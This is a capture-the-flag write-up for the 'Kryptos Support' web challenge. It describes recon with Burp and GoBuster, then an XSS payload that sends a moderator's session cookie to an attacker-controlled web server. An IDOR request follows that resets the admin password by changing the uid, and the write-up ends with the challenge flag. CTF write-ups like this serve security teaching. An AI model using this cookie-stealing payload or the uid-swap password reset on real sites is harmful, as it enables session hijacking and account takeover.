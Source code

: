 # Kryptos Support (Web)

![Kryptos Ticket Submission](kryptos_support1.png)

## Initial Recon

Examing source code and looking at the HTTP requests in BurpSuite, found two endpoints:
- `/api/tickets`
- `/api/login`

GoBuster yielded no usable results.

## XSS Injection

Started an HTTP server on my machine and started experimenting with different XSS payloads.

`python3 -m http.server 80`
  
Found a winner!

`<img src=x onerror="location.href='http://your-web-server/?cookie=' + document.cookie">`

Checking our python3 web server, we can see we've now got a session cookie!

`/?cookie=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI`

Manually put the cookie into your browser, and BOOM, we're logged in as `moderator` and can see the list of support tickets at `/tickets`.

![Kryptos Ticket List](kryptos_support2.png)

## Further Exploitation

Once logged in as `moderator`, we can see a link for a "Settings" page in the top left. This page allows you to change your password (without knowing the current password), and uses the endpoint: `/api/users/update`

![Kryptos Password Change](kryptos_support3.png)

Capturing a password change for our current session, Burp shows us the following information included in the POST request:

    {
        "password":"test",
        "uid":"100"
    }

Guessing the admin account may have a uid of 1, we use Burp repeater to send the following POST:


    {
        "password":"a",
        "uid":"1"
    }

Now, delete your cookies, return to the `/login` page, and login as `admin:a`.

There's your flag! `HTB{x55_4nd_id0rs_ar3_fun!!}`
